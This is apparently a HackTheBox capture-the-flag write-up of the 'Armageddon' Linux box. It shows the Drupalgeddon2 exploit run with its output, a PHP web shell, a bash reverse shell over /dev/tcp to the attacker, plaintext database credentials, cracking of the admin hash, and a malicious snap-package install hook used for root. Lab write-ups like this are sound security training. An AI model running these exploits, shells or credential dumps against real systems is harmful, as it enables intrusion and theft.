





# Armageddon - Linux (Easy)

## Summary

Armageddon was a straightforward box that involved a Drupalgeddon2 exploit which is quite common. I was able to upload a webshell and run commands to get initial access. Once I got initial access, I was able to access the database where the admin hash, once cracked was reused. To escalate privileges to root, I was able to exploit the fact that the admin user is able to install snap packages as root. 

## Enumeration

I began Enumeration with a `Rustscan` scan on the target, picking up open ports which were then fed to `Nmap` for a more thorough scan

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-generator: Drupal 7 (http://drupal.org)
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
|_http-title: Welcome to  Armageddon |  Armageddon
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
```

This resulted in two ports - 22 (SSH) and 80 (HTTP). I initially targeted Port 80 as SSH isn't usually a priority (I usually try password guessing - admin, root, box name and default passwords and they didn't work this time around). However, the Nmap scan actually pulled down the `drupaluser` credential with the associated password which I will attempt to login as shortly. 

## Port 80 (HTTP)

I then ran Gobuster to full enumerate HTTP and any sub-directories that were hidden.

```
gobuster dir -u $machine_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x php,txt,css,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$machine_IP
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,css,js
[+] Timeout:                 10s
===============================================================
2022/02/25 19:51:10 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 7440]
/misc                 (Status: 301) [Size: 233] [--> http://$machine_IP/misc/]
/themes               (Status: 301) [Size: 235] [--> http://$machine_IP/themes/]
/modules              (Status: 301) [Size: 236] [--> http://$machine_IP/modules/]
/scripts              (Status: 301) [Size: 236] [--> http://$machine_IP/scripts/]
/sites                (Status: 301) [Size: 234] [--> http://$machine_IP/sites/]  
/includes             (Status: 301) [Size: 237] [--> http://$machine_IP/includes/]
/install.php          (Status: 200) [Size: 3172]                                   
/profiles             (Status: 301) [Size: 237] [--> http://$machine_IP/profiles/]
/update.php           (Status: 403) [Size: 4057]                                   
/README.txt           (Status: 200) [Size: 5382]                                   
/robots.txt           (Status: 200) [Size: 2189]                                   
/INSTALL.txt          (Status: 200) [Size: 17995]                                  
/cron.php             (Status: 403) [Size: 7388]                                   
/LICENSE.txt          (Status: 200) [Size: 18092]                                  
/CHANGELOG.txt        (Status: 200) [Size: 111613]                                 
/xmlrpc.php           (Status: 200) [Size: 42]                                     
/COPYRIGHT.txt        (Status: 200) [Size: 1481]                                   
/UPGRADE.txt          (Status: 200) [Size: 10123]                                  
/authorize.php        (Status: 403) [Size: 2824]
```

The Nmap scan reported that the target was running version 7 but `changelog.txt` was more helpful as it provided valuable information about the specific version of Drupal 7 and I was able to enumerate information about latest security patches.



Researching that particular version of Drupal provided more information about the [Drupalgeddon2](https://unit42.paloaltonetworks.com/unit42-exploit-wild-drupalgeddon2-analysis-cve-2018-7600/) exploit. The webpage on port 80 involved creating an account but it also required verifying via email which is a bit tricky with HackTheBox. However, since I had the granular version number, I was able to proceed. I was able to query a relevant exploit with `Searchsploit` but in this case, the results were slightly elusive and I ended up resorting to a [Github PoC](https://github.com/dreadlocked/Drupalgeddon2). 

## Gaining User Foothold

Having installed Highline, a dependency for the script to run, I was able to get a break through 

```
gem install highline

ruby drupalgeddon2.rb http://$machine_IP
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://$machine_IP/
--------------------------------------------------------------------------------
[+] Found  : http://$machine_IP/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo DPDCPLVM
[+] Result : DPDCPLVM
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://$machine_IP/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://$machine_IP/shell.php' -d 'c=hostname'
armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Since I was able to demonstrate that the `curl` command could be modified to leak information, I was able to extend this further



```
curl -G --data-urlencode "c=bash -i >& /dev/tcp/$HTB_IP/443 0>&1" 'http://$machine_IP/shell.php'
```

I picked this up with a netcat listener and was logged in as the `Apache` entity

```
nc -lvnp 443
listening on [any] 443 ...
connect to [$HTB_IP] from (UNKNOWN) [$machine_IP] 40240
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Despite being unable to access the `/home` directory due to insufficient permissions, I was able to read the `/etc` file and determine that there was a legitimate user named `Brucetherealadmin`



I went to `/sites/default/` and opened `settings.php` which had the MySQL credentials identified earlier in the Nmap scan results

I was able to pull available tables with the following command

```
mysql -e 'show tables;' -u drupaluser -p 'CQHEy@9M*m23gBVj' drupal
```

Among the tables, one that interested me was `users`. I queried all the users in there and the only one that was generated was `Brucetherealadmin`

```
bash-4.2$ mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
<* from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal                    
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        languagepicture  init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
```

I copied the hash to a text file and ran Hashcat on it

```
hashcat -a 0 -m 7900 hash.txt /usr/share/wordlists/rockyou.txt
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7900 (Drupal7)
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
```

Upon logging in via SSH, I was able to grab the user flag and also identified an attack vector to privesc

```
ssh brucetherealadmin@$machine_IP                                                                                             
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin

[brucetherealadmin@armageddon ~]$ pwd
/home/brucetherealadmin

[brucetherealadmin@armageddon ~]$ ls
user.txt
[brucetherealadmin@armageddon ~]$ cat user.txt 
22d*****************************

[brucetherealadmin@armageddon ~]$ sudo -l

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

## Privilege Escalation to Root

This was a very frustrating process and ended up taking far too long for an **easy** box but I ended up learning a lot out of it! [GTFO Bins](https://gtfobins.github.io/gtfobins/snap/) was my starting point for this process. A pre-requisite to generating the package is having fpm and I was able to install it with gem 

```
gem install fpm
fp --version
```

I started by copying and running the default package

```
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

Running the command resulted in a `xxx_1.0_all.snap` file and redirected me to a `/tmp` sub-directory



Following this, I opened a Python Server on Port 80 and picked it up from the victim through a `curl` command

```
$ curl 10.10.14.10/xxxx_1.0_all.snap -o test.snap

[brucetherealadmin@armageddon ~]$ ls
test.snap  user.txt
[brucetherealadmin@armageddon ~]$ sudo snap install test.snap --dangerous --devmode
```

Having run the `curl` command, I renamed the output to `test.snap`. After this, I was able to execute it to verify that `$COMMAND` produced the output of the id command.

```
sudo snap install test.snap --dangerous --devmode
```

Seeing this being successfully tested, I was able to extend this to do a file-read of the `root.txt` flag.



## Cert 

